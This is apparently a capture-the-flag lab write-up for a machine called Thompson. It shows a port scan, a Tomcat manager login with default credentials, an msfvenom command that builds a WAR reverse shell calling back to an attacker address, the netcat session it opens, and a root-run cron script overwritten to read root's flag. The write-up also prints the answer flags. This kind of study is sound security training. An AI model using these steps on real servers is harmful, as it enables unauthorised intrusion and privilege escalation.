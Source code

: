 # Thompson By Mian Al Ruhanyat
## Links 
- 10.10.25.211

## Post Scanning
```sh

nmap -sS -sV -O 10.10.25.211 >> ports.txt


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 10:38 EDT
Nmap scan report for 10.10.25.211
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.5
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/24%OT=22%CT=1%CU=40969%PV=Y%DS=5%DC=I%G=Y%TM=66A1
OS:1253%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%II=I%TS=A)SEQ(S
OS:P=106%GCD=1%ISR=10A%TI=Z%TS=A)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%II=I%TS=A)SE
OS:Q(SP=107%GCD=1%ISR=109%TI=Z%TS=8)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I
OS:%TS=C)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O
OS:5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6
OS:=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O
OS:%A=O%F=AS%RD=0%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.38 seconds

```
- We found there is a http apache tomcat server 
- we know that tomcat is used for java server pages  

[tomcat penetration testing ](https://www.hackingarticles.in/tomcat-penetration-testing/)

- If we go to the port `10.10.25.211:8080` we can have a tomcat page

![alt text](/Thompson/photos/image.png)

- If we click the manager app it is giving us a login page

![alt text](/Thompson/photos/image1.png)

- If we cancel the pop-up it is giving us an error

![alt text](/Thompson/photos/image2.png)

- Here we can have the password
    - name:`tomcat`
    - password:`s3cret`

- In the manager page we can add WAR files from our system

![alt text](/Thompson/photos/image3.png)

- Now we will write a reverse shell or we can use the metaspoitable tool 

- `msfvenom -p java/jsp_shell_reverse_tcp lhost=<Attacker_Ip> lport=1234 -f war > shell.war`

- We are doing through manual reverse shell

![alt text](/Thompson/photos/image4.png)

- we will deploy the shell 

```sh
└─$ nc -nlvp 1234                                          
listening on [any] 1234 ...

```
- And go to the `10.10.25.211:8080/shell`

```sh
└─$ nc -nlvp 1234                                          
listening on [any] 1234 ...
connect to [10.17.88.30] from (UNKNOWN) [10.10.25.211] 54786
ls
bin
home
initrd.img
initrd.img.old
opt
proc
root
```

## We are In!

```sh
cd /home
ls
jack
cd jack
ls 
id.sh
test.txt
user.txt
cat user.txt
39400c90bc683a41a8935e4719f181bf


$ ls
id.sh
test.txt
user.txt
$ cat id.sh
#!/bin/bash
id > test.txt
$ cat test.txt 
uid=0(root) gid=0(root) groups=0(root)


```

## Privilege Escalation
`echo '#!/bin/bash  
cat /root/root.txt > test.txt' > id.sh` 

- We will use this command for converting the root.txt to test.txt
- Because the test.txt has the root privilege
```sh
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh

$ echo ' #!/bin/bash  
cat /root/root.txt > test.txt' > id.sh

$cat id.sh
 #!/bin/bash  
cat /root/root.txt > test.txt
$ cat test.txt
d89d5391984c0450a95497153ae7ca3a


```



### **User-txt: `39400c90bc683a41a8935e4719f181bf`**
### **Root-txt: `d89d5391984c0450a95497153ae7ca3a `**

# Pwned!!